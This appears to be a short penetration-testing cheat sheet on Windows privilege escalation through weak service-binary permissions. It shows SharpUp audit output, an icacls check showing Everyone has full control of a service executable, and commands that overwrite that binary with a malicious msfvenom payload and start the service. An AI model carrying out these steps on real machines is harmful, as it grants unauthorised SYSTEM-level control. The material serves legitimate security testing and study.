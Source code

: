 # Weak Permissions

## Permissive File System ACLs

### Running SharpUp

https://github.com/GhostPack/SharpUp/

```
.\SharpUp.exe audit

=== SharpUp: Running Privilege Escalation Checks ===


=== Modifiable Service Binaries ===

  Name             : SecurityService
  DisplayName      : PC Security Management Service
  Description      : Responsible for managing PC security
  State            : Stopped
  StartMode        : Auto
  PathName         : "C:\Program Files (x86)\PCProtect\SecurityService.exe"
  
  <SNIP>
  
```

### Checking Permissions with icacls

```
icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"

C:\Program Files (x86)\PCProtect\SecurityService.exe BUILTIN\Users:(I)(F)
                                                     Everyone:(I)(F)
                                                     NT AUTHORITY\SYSTEM:(I)(F)
                                                     BUILTIN\Administrators:(I)(F)
                                                     APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                                     APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

### Replacing Service Binary

Replace the original binary with a malicious binary generated with msfvenom

```
cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
sc start SecurityService
```
